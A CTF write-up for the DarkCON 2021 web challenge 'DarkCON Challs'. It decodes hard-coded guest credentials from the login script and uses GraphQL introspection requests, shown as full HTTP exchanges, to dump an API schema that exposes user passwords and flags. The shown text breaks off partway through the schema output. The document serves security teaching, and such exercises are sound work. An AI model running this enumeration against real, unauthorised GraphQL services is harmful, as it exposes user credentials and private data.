

# DarkCON CTF 2021 – DarkCON Challs

* **Category:** web
* **Points:** ?

## Challenge

> A place where you can see all the challs of darkCON CTF using api but not the flag or can you @_@ ?
> 
> PS :- Try to get the flag of this chall xD
> 
> http://darkcon-challs.darkarmy.xyz/login

## Solution

The website contains a login form with two different authentications, user credentials and guest account, managed by a [JavaScript](auth.js).

```javascript
function auth(){ 
    var username = document.getElementById("Username").value;
    var password = document.getElementById("Password").value;
    var head = btoa(username + ':' + password);
    $(document).ready(
        function() {
            $.post(
                "graphql",
                {
                    "query":"mutation{login(username:\""+username+"\",password:\""+password+"\")}"
                }, 
                function(data, textStatus) {
                    if(data.data.login=="Success") {
                        document.cookie="auth="+head;
                        window.location='/dashboard'
                    } else {
                        alert('Wrong creds')
                    };
                },
                "json"
            );
        }
    );
}

function yeet() { 
    document.cookie="auth=Z3Vlc3Q6a2FybWE5ODc0";
    window.location="/dashboard"
}
```

Analyzing the JavaScript, you can discover that a query to a GraphQL endpoint is performed with the standard authentication. Credentials are put into cookies.

Guest credentials, decoded from base64, are the following.

```
guest:karma9874
```

Connecting as guest, you can reach the dashboard listing all the data and discover [another JavaScript](main.js) which contacts the GraphQL backend to retrieve data.

```javascript
$(document).ready(
    function() {
        $.post(
            "graphql",
            {
                "query":"query Query {\nChalls{\nid\ntitle\ndescription\ncategory\nauthor\npoints\n}\n}"
            },
            function(data, textStatus) {
                $.each(
                    data.data.Challs,
                    function(i,val) {
                        var deta = "<tr><td>"+val.id+"</td><td>"+val.title+"</td><td>"+val.description+"</td><td>"+val.category+"</td><td>"+val.author+"</td><td>"+val.points+"</td></tr>";
                        $('table tbody').append(deta);
                    }
                );
            },
            "json"
        );
    }
);
```

Queries discovered till now are the following:
* `mutation { login(username:"username", password:"password") }`;
* `query Query { Challs { id title description category author points } }`.

You can enumerate types.

```
POST /graphql HTTP/1.1
Host: darkcon-challs.darkarmy.xyz
Content-Length: 29
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://darkcon-challs.darkarmy.xyz
Referer: http://darkcon-challs.darkarmy.xyz/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: __cfduid=debb56df9ac3af6ddd05cb65280ecf14c1613856793; auth=Z3Vlc3Q6a2FybWE5ODc0
Connection: close

query={__schema{types{name}}}

HTTP/1.1 200 OK
Date: Sun, 21 Feb 2021 08:56:08 GMT
Content-Type: application/json; charset=utf-8
Connection: close
X-Powered-By: Express
ETag: W/"173-RJDzzhjsgOwt9ru9s6bKYl2W1Bw"
CF-Cache-Status: DYNAMIC
cf-request-id: 086566b39700001fea3b3b2000000001
Report-To: {"group":"cf-nel","endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report?s=Zp7fFMkJkX%2BKVEnfpvHSYCZ5CNgMhtuVLkII%2BKJnu9dcZi5DLUvA3OOr9yOOHA196QBwUXpxBrZ7c62v56nxAonLTmhCiWqSvkQbmj8U9CQSfvNHu0R5v%2F6xXAs%3D"}],"max_age":604800}
NEL: {"report_to":"cf-nel","max_age":604800}
Server: cloudflare
CF-RAY: 624f4098fa1c1fea-AMS
Content-Length: 371

{
  "data": {
    "__schema": {
      "types": [
        {
          "name": "Query"
        },
        {
          "name": "String"
        },
        {
          "name": "Challs"
        },
        {
          "name": "Int"
        },
        {
          "name": "hints"
        },
        {
          "name": "users"
        },
        {
          "name": "flags"
        },
        {
          "name": "Mutation"
        },
        {
          "name": "Boolean"
        },
        {
          "name": "__Schema"
        },
        {
          "name": "__Type"
        },
        {
          "name": "__TypeKind"
        },
        {
          "name": "__Field"
        },
        {
          "name": "__InputValue"
        },
        {
          "name": "__EnumValue"
        },
        {
          "name": "__Directive"
        },
        {
          "name": "__DirectiveLocation"
        }
      ]
    }
  }
}
```

And you can dump the database schema.

```
POST /graphql HTTP/1.1
Host: darkcon-challs.darkarmy.xyz
Content-Length: 1179
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://darkcon-challs.darkarmy.xyz
Referer: http://darkcon-challs.darkarmy.xyz/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: __cfduid=debb56df9ac3af6ddd05cb65280ecf14c1613856793; auth=Z3Vlc3Q6a2FybWE5ODc0
Connection: close

query=fragment+FullType+on+__Type+{++kind++name++description++fields(includeDeprecated%3a+true)+{++++name++++description++++args+{++++++...InputValue++++}++++type+{++++++...TypeRef++++}++++isDeprecated++++deprecationReason++}++inputFields+{++++...InputValue++}++interfaces+{++++...TypeRef++}++enumValues(includeDeprecated%3a+true)+{++++name++++description++++isDeprecated++++deprecationReason++}++possibleTypes+{++++...TypeRef++}}fragment+InputValue+on+__InputValue+{++name++description++type+{++++...TypeRef++}++defaultValue}fragment+TypeRef+on+__Type+{++kind++name++ofType+{++++kind++++name++++ofType+{++++++kind++++++name++++++ofType+{++++++++kind++++++++name++++++++ofType+{++++++++++kind++++++++++name++++++++++ofType+{++++++++++++kind++++++++++++name++++++++++++ofType+{++++++++++++++kind++++++++++++++name++++++++++++++ofType+{++++++++++++++++kind++++++++++++++++name++++++++++++++}++++++++++++}++++++++++}++++++++}++++++}++++}++}}query+IntrospectionQuery+{++__schema+{++++queryType+{++++++name++++}++++mutationType+{++++++name++++}++++types+{++++++...FullType++++}++++directives+{++++++name++++++description++++++locations++++++args+{++++++++...InputValue++++++}++++}++}}

HTTP/1.1 200 OK
Date: Sun, 21 Feb 2021 08:57:16 GMT
Content-Type: application/json; charset=utf-8
Connection: close
X-Powered-By: Express
ETag: W/"54e3-ui1CAAGaLDKrFmxVXj24YJqMqRI"
CF-Cache-Status: DYNAMIC
cf-request-id: 086567bebd00004c98282d2000000001
Report-To: {"max_age":604800,"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report?s=Ct3S9Kw28mi6NJ%2FzbpfwbKwu87xzFMbn1aeDPt0QmLeqmwVqCgfQpP%2FyB7vOYha%2By1FDce%2F5hpj324JtOBiPANAj%2BDdiR7jZVQUk27OayWrKMWV%2FhBjElmLdZxg%3D"}],"group":"cf-nel"}
NEL: {"report_to":"cf-nel","max_age":604800}
Server: cloudflare
CF-RAY: 624f42446de14c98-AMS
Content-Length: 21731

{
  "data": {
    "__schema": {
      "queryType": {
        "name": "Query"
      },
      "mutationType": {
        "name": "Mutation"
      },
      "types": [
        {
          "kind": "OBJECT",
          "name": "Query",
          "description": null,
          "fields": [
            {
              "name": "Challs",
              "description": null,
              "args": [],
              "type": {
                "kind": "LIST",
                "name": null,
                "ofType": {
                  "kind": "OBJECT",
                  "name": "Challs",
                  "ofType": null
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "allUsers",
              "description": null,
              "args": [],
              "type": {
                "kind": "LIST",
                "name": null,
                "ofType": {
                  "kind": "OBJECT",
                  "name": "users",
                  "ofType": null
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "hint",
              "description": null,
              "args": [
                {
                  "name": "chall_id",
                  "description": null,
                  "type": {
                    "kind": "NON_NULL",
                    "name": null,
                    "ofType": {
                      "kind": "SCALAR",
                      "name": "String",
                      "ofType": null
                    }
                  },
                  "defaultValue": null
                }
              ],
              "type": {
                "kind": "OBJECT",
                "name": "hints",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "flag",
              "description": null,
              "args": [
                {
                  "name": "chall_id",
                  "description": null,
                  "type": {
                    "kind": "NON_NULL",
                    "name": null,
                    "ofType": {
                      "kind": "SCALAR",
                      "name": "String",
                      "ofType": null
                    }
                  },
                  "defaultValue": null
                }
              ],
              "type": {
                "kind": "OBJECT",
                "name": "flags",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            }
          ],
          "inputFields": null,
          "interfaces": [],
          "enumValues": null,
          "possibleTypes": null
        },
        {
          "kind": "SCALAR",
          "name": "String",
          "description": "The `String` scalar type represents textual data, represented as UTF-8 character sequences. The String type is most often used by GraphQL to represent free-form human-readable text.",
          "fields": null,
          "inputFields": null,
          "interfaces": null,
          "enumValues": null,
          "possibleTypes": null
        },
        {
          "kind": "OBJECT",
          "name": "Challs",
          "description": null,
          "fields": [
            {
              "name": "id",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "title",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "description",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "category",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "author",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "points",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "Int",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "flag",
              "description": null,
              "args": [],
              "type": {
                "kind": "OBJECT",
                "name": "flags",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            }
          ],
          "inputFields": null,
          "interfaces": [],
          "enumValues": null,
          "possibleTypes": null
        },
        {
          "kind": "SCALAR",
          "name": "Int",
          "description": "The `Int` scalar type represents non-fractional signed whole numeric values. Int can represent values between -(2^31) and 2^31 - 1.",
          "fields": null,
          "inputFields": null,
          "interfaces": null,
          "enumValues": null,
          "possibleTypes": null
        },
        {
          "kind": "OBJECT",
          "name": "hints",
          "description": null,
          "fields": [
            {
              "name": "chall_id",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "chall_title",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "take_hint",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            }
          ],
          "inputFields": null,
          "interfaces": [],
          "enumValues": null,
          "possibleTypes": null
        },
        {
          "kind": "OBJECT",
          "name": "users",
          "description": null,
          "fields": [
            {
              "name": "id",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "username",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "password",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            }
          ],
          "inputFields": null,
          "interfaces": [],
          "enumValues": null,
          "possibleTypes": null
        },
        {
          "kind": "OBJECT",
          "name": "flags",
          "description": null,
          "fields": [
            {
              "name": "chall_id",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "chall_title",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "chall_flag",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            }
          ],
          "inputFields": null,
          "interfaces": [],
          "enumValues": null,
          "possibleTypes": null
        },
        {
          "kind": "OBJECT",
          "name": "Mutation",
          "description": null,
          "fields": [
            {
              "name": "login",
              "description": null,
              "args": [
                {
                  "name": "username",
                  "description": null,
                  "type": {
                    "kind": "NON_NULL",
                    "name": null,
                    "ofType": {
                      "kind": "SCALAR",
                      "name": "String",
                      "ofType": null
                    }
                  },
                  "defaultValue": null
                },
                {
                  "name": "password",
                  "description": null,
                  "type": {
                    "kind": "NON_NULL",
                    "name": null,
                    "ofType": {
                      "kind": "SCALAR",
                      "name": "String",
                      "ofType": null
                    }
                  },
                  "defaultValue": null
                }
              ],
              "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                  "kind": "SCALAR",
                  "name": "String",
                  "ofType": null
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            }
          ],
          "inputFields": null,
          "interfaces": [],
          "enumValues": null,
          "possibleTypes": null
        },
        {
          "kind": "SCALAR",
          "name": "Boolean",
          "description": "The `Boolean` scalar type represents `true` or `false`.",
          "fields": null,
          "inputFields": null,
          "interfaces": null,
          "enumValues": null,
          "possibleTypes": null
        },
        {
          "kind": "OBJECT",
          "name": "__Schema",
          "description": "A GraphQL Schema defines the capabilities of a GraphQL server. It exposes all available types and directives on the server, as well as the entry points for query, mutation, and subscription operations.",
          "fields": [
            {
              "name": "description",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "types",
              "description": "A list of all types supported by this server.",
              "args": [],
              "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                  "kind": "LIST",
                  "name": null,
                  "ofType": {
                    "kind": "NON_NULL",
                    "name": null,
                    "ofType": {
                      "kind": "OBJECT",
                      "name": "__Type",
                      "ofType": null
                    }
                  }
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "queryType",
              "description": "The type that query operations will be rooted at.",
              "args": [],
              "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                  "kind": "OBJECT",
                  "name": "__Type",
                  "ofType": null
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "mutationType",
              "description": "If this server supports mutation, the type that mutation operations will be rooted at.",
              "args": [],
              "type": {
                "kind": "OBJECT",
                "name": "__Type",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "subscriptionType",
              "description": "If this server support subscription, the type that subscription operations will be rooted at.",
              "args": [],
              "type": {
                "kind": "OBJECT",
                "name": "__Type",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "directives",
              "description": "A list of all directives supported by this server.",
              "args": [],
              "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                  "kind": "LIST",
                  "name": null,
                  "ofType": {
                    "kind": "NON_NULL",
                    "name": null,
                    "ofType": {
                      "kind": "OBJECT",
                      "name": "__Directive",
                      "ofType": null
                    }
                  }
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            }
          ],
          "inputFields": null,
          "interfaces": [],
          "enumValues": null,
          "possibleTypes": null
        },
        {
          "kind": "OBJECT",
          "name": "__Type",
          "description": "The fundamental unit of any GraphQL Schema is the type. There are many kinds of types in GraphQL as represented by the `__TypeKind` enum.\n\nDepending on the kind of a type, certain fields describe information about that type. Scalar types provide no information beyond a name, description and optional `specifiedByUrl`, while Enum types provide their values. Object and Interface types provide the fields they describe. Abstract types, Union and Interface, provide the Object types possible at runtime. List and NonNull types compose other types.",
          "fields": [
            {
              "name": "kind",
              "description": null,
              "args": [],
              "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                  "kind": "ENUM",
                  "name": "__TypeKind",
                  "ofType": null
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "name",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "description",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "specifiedByUrl",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "fields",
              "description": null,
              "args": [
                {
                  "name": "includeDeprecated",
                  "description": null,
                  "type": {
                    "kind": "SCALAR",
                    "name": "Boolean",
                    "ofType": null
                  },
                  "defaultValue": "false"
                }
              ],
              "type": {
                "kind": "LIST",
                "name": null,
                "ofType": {
                  "kind": "NON_NULL",
                  "name": null,
                  "ofType": {
                    "kind": "OBJECT",
                    "name": "__Field",
                    "ofType": null
                  }
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "interfaces",
              "description": null,
              "args": [],
              "type": {
                "kind": "LIST",
                "name": null,
                "ofType": {
                  "kind": "NON_NULL",
                  "name": null,
                  "ofType": {
                    "kind": "OBJECT",
                    "name": "__Type",
                    "ofType": null
                  }
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "possibleTypes",
              "description": null,
              "args": [],
              "type": {
                "kind": "LIST",
                "name": null,
                "ofType": {
                  "kind": "NON_NULL",
                  "name": null,
                  "ofType": {
                    "kind": "OBJECT",
                    "name": "__Type",
                    "ofType": null
                  }
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "enumValues",
              "description": null,
              "args": [
                {
                  "name": "includeDeprecated",
                  "description": null,
                  "type": {
                    "kind": "SCALAR",
                    "name": "Boolean",
                    "ofType": null
                  },
                  "defaultValue": "false"
                }
              ],
              "type": {
                "kind": "LIST",
                "name": null,
                "ofType": {
                  "kind": "NON_NULL",
                  "name": null,
                  "ofType": {
                    "kind": "OBJECT",
                    "name": "__EnumValue",
                    "ofType": null
                  }
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "inputFields",
              "description": null,
              "args": [
                {
                  "name": "includeDeprecated",
                  "description": null,
                  "type": {
                    "kind": "SCALAR",
                    "name": "Boolean",
                    "ofType": null
                  },
                  "defaultValue": "false"
                }
              ],
              "type": {
                "kind": "LIST",
                "name": null,
                "ofType": {
                  "kind": "NON_NULL",
                  "name": null,
                  "ofType": {
                    "kind": "OBJECT",
                    "name": "__InputValue",
                    "ofType": null
                  }
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "ofType",
              "description": null,
              "args": [],
              "type": {
                "kind": "OBJECT",
                "name": "__Type",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            }
          ],
          "inputFields": null,
          "interfaces": [],
          "enumValues": null,
          "possibleTypes": null
        },
        {
          "kind": "ENUM",
          "name": "__TypeKind",
          "description": "An enum describing what kind of type a given `__Type` is.",
          "fields": null,
          "inputFields": null,
          "interfaces": null,
          "enumValues": [
            {
              "name": "SCALAR",
              "description": "Indicates this type is a scalar.",
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "OBJECT",
              "description": "Indicates this type is an object. `fields` and `interfaces` are valid fields.",
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "INTERFACE",
              "description": "Indicates this type is an interface. `fields`, `interfaces`, and `possibleTypes` are valid fields.",
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "UNION",
              "description": "Indicates this type is a union. `possibleTypes` is a valid field.",
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "ENUM",
              "description": "Indicates this type is an enum. `enumValues` is a valid field.",
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "INPUT_OBJECT",
              "description": "Indicates this type is an input object. `inputFields` is a valid field.",
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "LIST",
              "description": "Indicates this type is a list. `ofType` is a valid field.",
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "NON_NULL",
              "description": "Indicates this type is a non-null. `ofType` is a valid field.",
              "isDeprecated": false,
              "deprecationReason": null
            }
          ],
          "possibleTypes": null
        },
        {
          "kind": "OBJECT",
          "name": "__Field",
          "description": "Object and Interface types are described by a list of Fields, each of which has a name, potentially a list of arguments, and a return type.",
          "fields": [
            {
              "name": "name",
              "description": null,
              "args": [],
              "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                  "kind": "SCALAR",
                  "name": "String",
                  "ofType": null
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "description",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "args",
              "description": null,
              "args": [
                {
                  "name": "includeDeprecated",
                  "description": null,
                  "type": {
                    "kind": "SCALAR",
                    "name": "Boolean",
                    "ofType": null
                  },
                  "defaultValue": "false"
                }
              ],
              "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                  "kind": "LIST",
                  "name": null,
                  "ofType": {
                    "kind": "NON_NULL",
                    "name": null,
                    "ofType": {
                      "kind": "OBJECT",
                      "name": "__InputValue",
                      "ofType": null
                    }
                  }
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "type",
              "description": null,
              "args": [],
              "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                  "kind": "OBJECT",
                  "name": "__Type",
                  "ofType": null
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "isDeprecated",
              "description": null,
              "args": [],
              "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                  "kind": "SCALAR",
                  "name": "Boolean",
                  "ofType": null
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "deprecationReason",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            }
          ],
          "inputFields": null,
          "interfaces": [],
          "enumValues": null,
          "possibleTypes": null
        },
        {
          "kind": "OBJECT",
          "name": "__InputValue",
          "description": "Arguments provided to Fields or Directives and the input fields of an InputObject are represented as Input Values which describe their type and optionally a default value.",
          "fields": [
            {
              "name": "name",
              "description": null,
              "args": [],
              "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                  "kind": "SCALAR",
                  "name": "String",
                  "ofType": null
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "description",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "type",
              "description": null,
              "args": [],
              "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                  "kind": "OBJECT",
                  "name": "__Type",
                  "ofType": null
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "defaultValue",
              "description": "A GraphQL-formatted string representing the default value for this input value.",
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "isDeprecated",
              "description": null,
              "args": [],
              "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                  "kind": "SCALAR",
                  "name": "Boolean",
                  "ofType": null
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "deprecationReason",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            }
          ],
          "inputFields": null,
          "interfaces": [],
          "enumValues": null,
          "possibleTypes": null
        },
        {
          "kind": "OBJECT",
          "name": "__EnumValue",
          "description": "One possible value for a given Enum. Enum values are unique values, not a placeholder for a string or numeric value. However an Enum value is returned in a JSON response as a string.",
          "fields": [
            {
              "name": "name",
              "description": null,
              "args": [],
              "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                  "kind": "SCALAR",
                  "name": "String",
                  "ofType": null
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "description",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "isDeprecated",
              "description": null,
              "args": [],
              "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                  "kind": "SCALAR",
                  "name": "Boolean",
                  "ofType": null
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "deprecationReason",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            }
          ],
          "inputFields": null,
          "interfaces": [],
          "enumValues": null,
          "possibleTypes": null
        },
        {
          "kind": "OBJECT",
          "name": "__Directive",
          "description": "A Directive provides a way to describe alternate runtime execution and type validation behavior in a GraphQL document.\n\nIn some cases, you need to provide options to alter GraphQL's execution behavior in ways field arguments will not suffice, such as conditionally including or skipping a field. Directives provide this by describing additional information to the executor.",
          "fields": [
            {
              "name": "name",
              "description": null,
              "args": [],
              "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                  "kind": "SCALAR",
                  "name": "String",
                  "ofType": null
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "description",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "isRepeatable",
              "description": null,
              "args": [],
              "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                  "kind": "SCALAR",
                  "name": "Boolean",
                  "ofType": null
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "locations",
              "description": null,
              "args": [],
              "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                  "kind": "LIST",
                  "name": null,
                  "ofType": {
                    "kind": "NON_NULL",
                    "name": null,
                    "ofType": {
                      "kind": "ENUM",
                      "name": "__DirectiveLocation",
                      "ofType": null
                    }
                  }
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "args",
              "description": null,
              "args": [],
              "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                  "kind": "LIST",
                  "name": null,
                  "ofType": {
                    "kind": "NON_NULL",
                    "name": null,
                    "ofType": {
                      "kind": "OBJECT",
                      "name": "__InputValue",
                      "ofType": null
                    }
                  }
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            }
          ],
          "inputFields": null,
          "interfaces": [],
          "enumValues": null,
          "possibleTypes": null
        },
        {
          "kind": "ENUM",
          "name": "__DirectiveLocation",
          "description": "A Directive can be adjacent to many parts of the GraphQL language, a __DirectiveLocation describes one such possible adjacencies.",
          "fields": null,
          "inputFields": null,
          "interfaces": null,
          "enumValues": [
            {
              "name": "QUERY",
              "description": "Location adjacent to a query operation.",
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "MUTATION",
              "description": "Location adjacent to a mutation operation.",
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "SUBSCRIPTION",
              "description": "Location adjacent to a subscription operation.",
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "FIELD",
